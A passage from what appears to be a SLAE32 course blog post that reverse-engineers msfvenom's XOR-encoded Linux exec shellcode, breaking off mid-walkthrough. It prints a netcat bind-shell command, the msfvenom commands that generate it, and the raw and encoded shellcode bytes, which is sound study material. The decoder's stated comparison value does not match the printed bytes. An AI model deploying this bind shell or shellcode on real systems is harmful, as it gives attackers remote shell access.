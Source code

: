 ```yaml
---
title: SLAE32 Assignment 5 -- Analyzing MSF-Venom Dynamic XOR Encoded Exec Shellcode
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - Reverse
  - Netcat
  - metasploit
  - msfvenom
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcoding
  - Shellcode
--- 
```


![](/pics/msfLogo.png)

For the 5th assignment of the SLAE Exam, I will be analyzing 3 different linux x86 shellcodes created with MSF Venom.
The first will be the payload: /linux/x86/exec
The command being executed will be: nc -nlp 4444 -e "/bin/sh" &
  - This will create a bind shell, on TCP port 4444, on all network interfaces, and then background the process.
Testing out the command:
```console
root# nc -nlp 4444 -e "/bin/sh" &
[1] 9119
root# netstat -tnalp | grep nc
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      9119/nc
```
We can see that the command successfully ran and was given the process ID 9119 and the job ID of 1.
Using netstat we see that the process nc is successfully listening on all interfaces (0.0.0.0), on TCP port 4444.
Since the job is running in the background, we can use the same terminal window to access our /bin/sh listening on all interfaces, by using netcat to connect to the localhost interface (127.0.0.1) on TCP port 4444.
```console
root# nc 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root),46(plugdev)
```
We successfully are able to run commands with our netcat, bind shell.

Now we will use msfvenom to create a shellcode to execute our netcat, bind shell command. The output will be in C so we can easily add it to our shellcode.c program.
```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --format c
Payload size: 63 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x1c\x00\x00\x00\x6e"
"\x63\x20\x2d\x6e\x6c\x70\x20\x34\x34\x34\x34\x20\x2d\x65\x20"
"\x22\x2f\x62\x69\x6e\x2f\x73\x68\x22\x20\x26\x00\x57\x53\x89"
"\xe1\xcd\x80";
```
This payload contains NULL bytes, rendering it useless for shellcode. We will use the builtin XOR encoder to encode our payload before we analyze it.
```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --format c --encoder x86/xor_dynamic     
x86/xor_dynamic chosen with final size 109
Payload size: 109 bytes
unsigned char buf[] =
"\xeb\x23\x5b\x89\xdf\xb0\x1a\xfc\xae\x75\xfd\x89\xf9\x89\xde"                                                         
"\x8a\x06\x30\x07\x47\x66\x81\x3f\x88\x02\x74\x08\x46\x80\x3e"                                                         
"\x1a\x75\xee\xeb\xea\xff\xe1\xe8\xd8\xff\xff\xff\x02\x1a\x68"                                                         
"\x09\x5a\x9b\x50\x64\x6a\x2f\x61\x8b\xe5\x6a\x2d\x71\x6a\x02"                                                         
"\x6a\x2d\x60\x6b\x6c\x8b\xe1\x50\xea\x1e\x02\x02\x02\x6c\x61"                                                         
"\x22\x2f\x6c\x6e\x72\x22\x36\x36\x36\x36\x22\x2f\x67\x22\x20"                                                         
"\x2d\x60\x6b\x6c\x2d\x71\x6a\x20\x22\x24\x02\x55\x51\x8b\xe3"                                                         
"\xcf\x82\x88\x02";
```
Perfect, now our shellcode is NULL free. Next we will use sctest from libemu to analyze the shellcode.
> I used my  64-bit Kali machine to create the 32-bit MSF Venom shellcode, and to analyze it with libemu. Unfortunately I could not find a trust-worthy download from the internet. Fortunately libemu is included in the kali repo.
```console
root# apt search libemu
libemu2/kali-rolling,now 0.2.0+git20120122-1.2+b1 amd64 [installed,automatic]
  x86 shellcode detection and emulation
```
Now that we have libemu, we will pipe our payload from msfvenom into sctest. Using sctest from libemu, we will create a visual map of how the shellcode is being executed.
```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --encoder x86/xor_dynamic | sctest -Ss 10000 -vvv -G execNC.dot
# Convert from dot to png
root# dot -Tpng execNC.dot -o execNC.png
# open png picture with eog
eog execNC.png
```
![](/pics/execNC.png)

At first this may look a little over-whelming, but once we start breaking it down, we will see it is not that bad.
In the top most block, we can see that the shellcode is using the Jump-Call-Pop technique.

The first instruction `jmp 0x25`, jumps forward 25 bytes. This is a short jump. Short jumps use offsets instead of a hard-coded address. This allows the shellcode to work in the programs it is injected into.
The next instruction `call 0xffffffdd`, is a call instruction. This is similar to a jump instruction. Although before jumping, the instruction after the call instruction is pushed onto the stack. 

> This allows the program to return to where it was, once it is done execution where it was called to. In our situation, the next instruction is actually the memory location to our string. Our string is our entire, XOR'd shellcode payload. 

The 3rd instruction `pop ebx`, pop's the pointer to our payload off into the EBX Register. Once in the EBX Register, it is duplicated to the EDI Register using the instruction `mov, edi,ebx`.
We can see that the loop, outlined using the blue arrow, is a XOR decoder loop. The decoder decodes our shellcode byte by byte using the instruction `xor [edi], al`. 
After the byte is decoded, the EDI Register is moved forward one byte using the instruction `inc edi`. The instruction `cmp word [edi],0x971b` compares 2 bytes (a word) starting at the memory location of EDI, with the value 0x971b. If the compare instruction returns that the 2 words match, then the result will return a 0 (the cmp instruction subtracts the two values and sets the Zero Flag if Zero). The instruction `jz 0xa` will jump EIP (the instruction Pointer) forward 10 bytes if the last instruction returned zero. This insturction is "Jump if Zero", also know as "Jump if Equal". 

> If we do the math we can see that that would change our location from 0x00417019, to 0x00417023 (indicated by the black arrow). Remember that this is in Hex not in Decimal, do not be decieved thinking it is only moving forward four. 
>>    0  > 1  > 2  > 3  > 4  > 5  > 6  > 7  > 8  > 9  > 10
    
>>    19 > 1a > 1b > 1c > 1d > 1e > 1f > 20 > 21 > 22 > 23

